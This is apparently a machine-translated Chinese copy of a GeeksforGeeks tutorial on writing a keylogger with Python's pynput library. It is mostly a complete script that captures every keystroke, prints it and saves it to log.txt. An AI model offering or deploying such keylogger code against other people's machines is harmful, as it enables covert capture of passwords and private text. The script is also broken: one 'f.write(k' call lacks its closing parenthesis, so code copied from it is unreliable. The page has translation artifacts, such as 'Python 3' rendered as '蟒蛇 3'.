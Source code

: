# 如何用 pynput 做一个键盘记录程序？

> 原文:[https://www . geeksforgeeks . org/如何使用-pyn put-to-make-a-keylogger/](https://www.geeksforgeeks.org/how-to-use-pynput-to-make-a-keylogger/)

**先决条件:** [Python 编程语言](https://www.geeksforgeeks.org/python-programming-language/)
包 **pynput.keyboard** 包含用于控制和监控键盘的类。 **pynput** 是 Python 的库，可以用来捕捉键盘输入，最酷的用途在于制作键盘记录器。键盘记录器的代码如下。

### 需要的模块

**pynput:** 要安装 pynput，请在终端中键入以下命令。

```py
 pip install pynput 
```

下面是实现:

## 蟒蛇 3

```py
# keylogger using pynput module

import pynput
from pynput.keyboard import Key, Listener

keys = []

def on_press(key):

    keys.append(key)
    write_file(keys)

    try:
        print('alphanumeric key {0} pressed'.format(key.char))

    except AttributeError:
        print('special key {0} pressed'.format(key))

def write_file(keys):

    with open('log.txt', 'w') as f:
        for key in keys:

            # removing ''
            k = str(key).replace("'", "")
            f.write(k

            # explicitly adding a space after
            # every keystroke for readability
            f.write(' ')

def on_release(key):

    print('{0} released'.format(key))
    if key == Key.esc:
        # Stop listener
        return False

with Listener(on_press = on_press,
              on_release = on_release) as listener:

    listener.join()
```

**输出:**

![python-keylogger-pyinput](img/aea8cbb2932c06a630fab54e8e1e0b82.png)